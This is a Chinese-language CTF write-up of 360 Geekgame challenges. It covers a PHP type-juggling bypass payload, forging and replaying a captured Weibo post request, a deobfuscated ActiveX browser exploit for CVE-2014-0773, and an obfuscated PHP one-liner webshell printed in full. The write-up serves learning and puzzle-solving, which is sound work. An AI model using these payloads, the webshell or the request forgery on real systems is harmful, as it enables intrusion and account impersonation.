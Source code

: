 ```yaml
---
layout: post
title: 360 Geekgame Writeup
---
```


{{ page.title }}
================
<p class="date">{{ page.date | date_to_string }} - Tr3jer_CongRong</p>

#### WEB1

就一个大苹果的图，Format Analysis后得到一串base64:`ZW1lbS4uLiAvY3RmXzM2MF9mbGFnv`

<img src="http://pfr2vvlbk.bkt.clouddn.com/6ehrtsgbfdx.png">

解密后为`emem... /ctf_360_flag`，是一个目录，图为被咬一口的苹果，osx默认下每个目录下都会存在一个.DS_Store文件来保存文件夹的显示属性，请求`/ctf_360_flag/.DS_Store`及得到flag：

	flag: 61cda90b0c742a90458c4ed43b328bcc

#### WEB3
根据图片Format Analysis后得到一大串摩斯密码：

	--. .. ..-. - --.. -- --. .- ;..<..- -.. .-- . .... .--. $.- = "----- .-.-.- .---- " ;$-... = $_--. . - [.----. -... . ----. ] ;.. ..- . ($-.. . -.-. -- = .- ---. .- ---. ){ .. ..-. ( .. ... _.- .- . .-. .- -.-- ($-... )){ . -.-. .. .. --- "-. - -- -.- . -.- - -.-.- - "; . -..- .. - ; }. .- .. ... . .. ..-. (- .-.-- . . ... _-. ..- -- . .-. .. -.-. ($-... )){ $-.-. = (.. -. - )(($.- + $-... ) * .- --- --- -- ); .. ..-. ($-.-. == "-- -.. " & & $-... [.---- ----- ] == ..- . .- . -.. ... . ){ . -. -. .... --- "..-. . -.. .- --. "; }. .-.. ... . { . -.-. .... -- - "-. --- - .- . - .-- -.- .-- "; . -. .- .. - ; } }. .-. . ... . { . - .-. ... . --- "-. -- - -.- . -.-- -.-.-- "; }}. .-. . ... . { . -.-. .... - -- "-. --- -.- . -.-- -. -.-- "; }..--.. >

<img src="http://pfr2vvlbk.bkt.clouddn.com/76tyhfg.png">

解密得到一段php代码：

	<?php
    $a= "0.1";
    $b= $_GET['b'];
    if($b! = '' )
    {
        if(is_array  ($b))
        {
            echo "nokey!";
            exit;
        }
        else if(!is_numeric ($b ))
        {
            $c   = (int)(($a + $b  ) * 10 );
            if  ($c   == "8" && $b  [10 ] == false )
            {
                echo   "flag ";
            }
            else
            {
                echo  "nokey ";
                exit  ;
            }
        }
        else {echo  "nokey ";}
    }
    else {echo  "no  ";}
	?>

这段代码表示GET请求的参数b符合要求的话就能得到flag，首先$b不能为数组，并且还不能为数字，继续往下看，分析写在下面。

	$c = (int)(($a + $b) * 10)
	$c == "8"
	转换为公式：
	int((0.1+$b)*10)==8
	因为要(int)所以$b>0.7 & $b<0.8 = 0.71
	&& $b[10] == false转换为公式：
	判断$b第11位不能为true，
	$b="0.711111111";
	var_dump($b[10] == TRUE);为true
	$b="0.7100000000";
	var_dump($b[10] == TRUE);为false
	或者不构造那么长也就是后面为空的话也为false

往回看，$b既然不能为数字的话那么也没判断是否为字符串，而且在if里判断的是类型转换后赋值给的$c，所以请求`web3?b=0.71a`及得到flag:

	flag: 4e07fbad6ff26d9a3c9f198277866c66

#### NET1
>要求："根据所给的pcap数据包进行分析，伪造地点`360大厦`和`iphone 6 plus`手机，发送任意微博内容"

&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;下载到pcap包后筛选下，请求方式为POST并且http内容中包含weibo字样的数据包。

	http.request.method=="POST" && http contains "weibo"

&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;翻到第7305个数据包为发微博的request包，Follow TCP Stream。

<img src="http://pfr2vvlbk.bkt.clouddn.com/tydhfgbxcv.png">

向下翻，poiid为地址

<img src="http://pfr2vvlbk.bkt.clouddn.com/65i7rtuydh.png">

c为手机类型

<img src="http://pfr2vvlbk.bkt.clouddn.com/8irujtydhfg.png">

content为微博内容

<img src="http://pfr2vvlbk.bkt.clouddn.com/4aresgdfxc.png">

ua为User-Agent

<img src="http://pfr2vvlbk.bkt.clouddn.com/7uytdhfgx.png">

根据这些字段就可以更改相应的字段为要求：

	ua=iPhone7,1__weibo__5.2.8__iphone__os8.3&c=iphone&poiid=B2094753D56EA0FE419C

然后重放request，获得flag:

	flag：195b8ef7140a6a09aa4e207e20f6304c

#### NET2
>请分析数据包并给出数据包中利用漏洞的CVE编号。（CVE编号即为过关密码，格式：CVE-XXXX-XXXX）

<img src="http://pfr2vvlbk.bkt.clouddn.com/8irjtydfg.png">

是一段js混淆，进行其反混淆

	< html >
	< body >
	< object id = "mfHQh" classid = "clsid:5C2A52BD-2250-4F6B-A4D2-D1D00FCD748C">
		< script type = "text/javascript" >
	   mfHQh[CreateProcess]("C:\windows\explorer.exe \\bwvbprt.exe", 0, 1);
	<  / script >
	<  / body >

搜索了下，flag为`CVE-2014-0773`

<img src="http://pfr2vvlbk.bkt.clouddn.com/eytdfg.png">

#### Encrypt2
>小明在服务器上发现了一个奇怪的php文件，初步断定为黑客留下的一句话后门，请分析php文件，找出一句话后门的密码。（密码即为Flag）


	<?php
	eval(gzinflate(base64_decode("pZLdSsNAEIXvBd+hTmOzMXTbFC3UGhtFEANWlLZES5OgvauoIFho2jy7s7PJhMSI
	F5Kbb2fPzs+Z7O8ZiYAmhLAFS9bQzhUQIboUPECKiUQDMSFMkYZIZt+U5nFkYijB0Kh0KfCcp+5wlh+6YaO2H9VFbW2BNK
	8U2iJJoiOk9Pek4q/ZBTwG481T4HeD3mC9vH79en67fb+fjScPM38aOMvL6erEn6xePm+uLj7u1i669I9qAucL4ZSDesQWC
	9WwHlGxkZRpwW9t1ikrDCRwAE87dtvm7EphlRQd3taC6AwpIjJ4A4XFkhcQ81uhbZcw6EN20a67mHPHxX8Qc+YQP7vyvxQJ
	IHNBa9usUBMcck5d1kNqEVmZl9CDkmNNnsLIFV3IKnsVRT4OOCQJdRNq76Pzbw==")));
	?>

这段代码进行base64+gzinflate加密，var_dump下看看执行结果：

<img src="http://pfr2vvlbk.bkt.clouddn.com/67jtydgbfvc.png">

获得了一串base64密文`YXNzZXJ0X29wdGlvbnMoQVNTRVJUX1dBUk5JTkcsIDApOw==`，解码得到`assert_options(ASSERT_WARNING, 0);`这个函数设置ASSERT_WARNING为0，即为不回显warning，删掉这段base64加密后的代码执行下。

<img src="http://pfr2vvlbk.bkt.clouddn.com/6i7jrtyd.png">

执行后由此看出是一段一句话木马，flag即为POST接受的参数：

	flag：p4n9_z1_zh3n9_j1u_Sh1_J13
